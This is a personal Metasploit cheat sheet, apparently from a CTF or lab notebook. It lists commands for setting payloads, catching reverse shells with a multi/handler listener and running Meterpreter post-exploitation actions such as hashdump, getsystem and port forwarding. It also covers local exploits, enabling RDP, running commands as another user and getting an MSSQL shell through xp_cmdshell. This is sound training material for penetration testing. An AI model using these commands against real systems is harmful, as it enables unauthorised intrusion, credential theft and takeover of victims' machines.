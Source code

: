# Metasploit

This page is just basic stuff I forget all the time. There are other Metasploit tips in sections where it's relevant.

## Advanced options

Metasploit is so derp-easy that you can often exploit a machine by setting the remote IP in `RHOST` and hitting the pew-pew button.

But sometimes that doesn't work and you cry because you know you're just a lame script kiddie pretending to be a hacker. However, you can aspire to be a _decent_ script kiddie by knowing how to use more advanced options in Metasploit.

Exploits might not work because of an unusual configuration or path issue, which you can set with either `show options` or `show advanced`. The `advanced` section may let you set`verbose = true` to provide more information about why an exploit isn't working.

You might also need to set the correct target:

```text
show targets
set target [target number]
```

[MSO8-067](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi) sometimes needs this because the module can't always identify the exact operating system version and language pack.

It's also important to pay attention to the default payload. Occasionally, you'll run into something weird like an Apache web server running on Windows, so the default Unix payload won't work.

Check and modify the payload:

```text
show payloads
set payload [whatever]
```

## Meterpreter

To catch shells using meterpreter:

```text
use exploit/multi/handler
set LHOST [attack machine]
set LPORT 443
run
```

If you're VPNed into a lab, pay attention to the IP address. I've noticed that the first time this module runs, it defaults to `eth0` and you have to restart it to use something like `tap0`.

### Basic commands

Frequently used commands, mostly to enumerate a victim machine:

```text
getuid      # get current user
sysinfo     # gets OS and hostname
execute     # execute a command
cd          # change directory
pwd         # print working directory
ls          # list files in current directory
mkdir       # make a directory
del         # delete a file
cat         # read the contents of a file
download    # download a file to your machine
hashdump    # get contents of password file
edit        # edit a file with vim
rm          # delete a file
rmdir       # remove directory
upload      # upload a file to the victim
ps          # list running processes
migrate     # move the active process to a designated PID
getpid      # get the current process ID (PID)
kill        # terminate a process by PID
ipconfig    # display network interfaces
portfwd     # forward a port on the victim to a remote service
route       # view or modify routing table
getprivs    # get as many privileges as possible
getsystem   # get Administrator
reboot      # reboot the victim
shutdown    # shut down the victim
reg         # interact with the victim's registry
```

### Sessions

Meterpreter is nice because it lets you maintain multiple shell sessions and use local exploits against them. For example, the [Rejetto exploit](https://www.exploit-db.com/exploits/39161/) always seems to fire a few times and with meterpreter, you can catch every shell session with a single listener.

To list active sessions:

```text
sessions -l
```

To enter a session:

```text
sessions -i [session number]
```

To enter a shell from a session \(not use meterpreter commands\):

```text
shell
```

To exit the shell and return to meterpreter, type `exit`.

## Useful exploits

I mostly use Metasploit on Windows machines because they still feel tricky to me. Below is a list of useful exploits for enumerating and running complex commands.

### Windows

Once you have a meterpreter shell, you can scan for local exploits and run them. Unlike remote exploits which target using IP addresses, local exploits run against a chosen shell session.

To access local exploits, you'll need to jump out of meterpreter using `background` and select one with the `use` command:

```text
meterpreter > background
use /exploit/windows/whatever
show options
[edit options as needed]
set SESSION [session number]
run
```

Check for exploits:

```text
meterpreter > run post/multi/recon/local_exploit_suggester
```

Get a remote desktop:

```text
meterpreter > run post/windows/manage/enable_rdp
```

Run a command as a different user:

```text
background
use post/windows/manage/run_as
[set username and password]
set CMDOUT true # output results of command
set CMD "type C:\Users\Administrator\Desktop\root.txt"
run
```

There are [manual ways to run commands as different user](https://stackoverflow.com/questions/12903629/how-do-i-run-a-program-from-command-prompt-as-a-different-user-and-as-an-admin) but I haven't tried them because I'm lazy.

### MSSQL

If you have credentials, you can use this module to get a shell:

```text
exploit/windows/mssql/mssql_payload
[set username and password]
run
```

It uses the `xp_cmdshell` stored procedure, [which isn't always enabled but can be](https://medium.com/pentestsec/hackthebox-tally-ctf-writeup-e132354d60e1). You could probably do the same exploit manually using a tool like [dbeaver](https://dbeaver.io/), but I haven't managed it yet.



